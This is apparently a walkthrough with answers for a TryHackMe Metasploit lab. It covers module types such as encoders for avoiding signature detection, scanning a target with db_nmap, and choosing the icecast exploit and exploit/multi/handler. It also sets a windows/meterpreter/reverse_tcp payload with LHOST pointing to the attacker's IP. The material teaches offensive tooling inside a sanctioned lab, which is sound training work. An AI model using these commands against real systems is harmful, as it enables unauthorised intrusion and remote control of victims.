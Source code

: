 Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?
>ENCODER

Last but not least, which module is used with buffer overflow and ROP attacks?
>NOP

Not every module is loaded in by default, what command can we use to load different modules? 
>LOAD

----

Task 5  Move that shell! :
----


Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command db_nmap -sV MACHINE_IP
>No need to answer

What service does nmap identify running on port 135?
>msrpc

Let's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
>No need to answer

How about something else from the database, try the command services now.
>No need to answer

One last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully. 
>No need to answer

Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? * This will include the exploit section at the start
>exploit/windows/http/icecast_header

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
Go ahead and run the command use NUMBER_NEXT_TO  exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
What is the name of the column on the far left side of the console that shows up next to 'Name'?
>#

Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results. 
>No need to answer

Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
>No need to answer

